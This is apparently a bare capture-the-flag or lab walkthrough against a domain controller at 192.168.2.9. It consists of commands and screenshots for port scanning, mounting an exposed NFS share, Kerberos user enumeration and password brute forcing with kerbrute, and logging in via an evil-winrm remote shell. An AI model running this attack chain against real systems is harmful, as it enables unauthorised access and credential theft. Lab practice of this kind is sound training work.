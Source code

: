 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e9f885fc-46ae-4438-8147-55ddccd9d2bb)

```
nmap -p- 192.168.2.9 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3f135770-5829-4738-8ae3-21ee2b0d72cb)

```
showmount -e 192.168.2.9
sudo mkdir /mnt/it_stuff
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/87e21d95-1046-46f1-a021-7ec017b15afe)

```
sudo mount -t nfs 192.168.2.9:/it_stuff /mnt/it_stuff -o nolock
sudo ls -la /mnt/it_stuff
sudo ls -la /mnt/it_stuff/Scripts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/edd45ec3-db92-4e59-a9a2-8eb0caac3cd1)

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.9 user.txt
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c648b73b-a853-4d2b-959c-5e1d21192ea7)

```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.9 generated_passwords.txt valentin.badanov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/11faab34-a8b6-4690-8585-4c3b01ac054f)

```
evil-winrm -i 192.168.2.9 -u 'valentin.badanov' -p 'PASS'
```
